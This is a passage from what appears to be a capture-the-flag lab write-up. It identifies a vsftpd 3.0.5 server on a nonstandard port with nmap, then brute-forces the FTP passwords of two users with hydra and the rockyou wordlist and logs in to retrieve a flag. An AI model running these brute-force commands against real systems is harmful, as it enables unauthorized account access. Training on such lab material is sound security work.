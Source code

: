 
<div class="challenge-section">
<strong>Question:</strong> We have an FTP server listening on a nonstandard port. What is the version of the FTP server?
</div>

<div class="method-box">
<h4>Methodology</h4>
We know from Question 2 that port 10021 is open. We'll use nmap with service version detection (<code>-sV</code>) to identify the FTP server version.
</div>

<div class="command-block">
<strong># Service version detection on FTP port</strong><br>
nmap 10.10.28.88 -sV -p 10021
</div>

<div class="answer-section">
<strong>Analysis:</strong> The version scan reveals the FTP service is running vsftpd (Very Secure FTP Daemon) version 3.0.5.
</div>

<div class="flag-box">
Answer: vsftpd 3.0.5
</div>


<div class="challenge-section">
<strong>Question:</strong> We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?
</div>

<div class="method-box">
<h4>Methodology</h4>
We'll use hydra to perform brute force attacks against both usernames on the FTP service, then access the accounts to find the flag.
</div>

<div class="command-block">
<strong># Brute force eddie's password</strong><br>
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.28.88:10021<br>
<strong># Result: Password is "jordan"</strong><br>
<br>
<strong># Brute force quinn's password</strong><br>
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.10.28.88:10021<br>
<strong># Result: Password is "andrea"</strong>
</div>

<div class="command-block">
<strong># Connect to FTP with discovered credentials</strong><br>
ftp 10.10.28.88 10021<br>
<strong>User:</strong> quinn<br>
<strong>Password:</strong> andrea<br>
<br>
<strong># List files and download flag</strong><br>
ls<br>
get ftp_flag.txt<br>
exit<br>
<br>
<strong># Read the flag</strong><br>
cat ftp_flag.txt
</div>
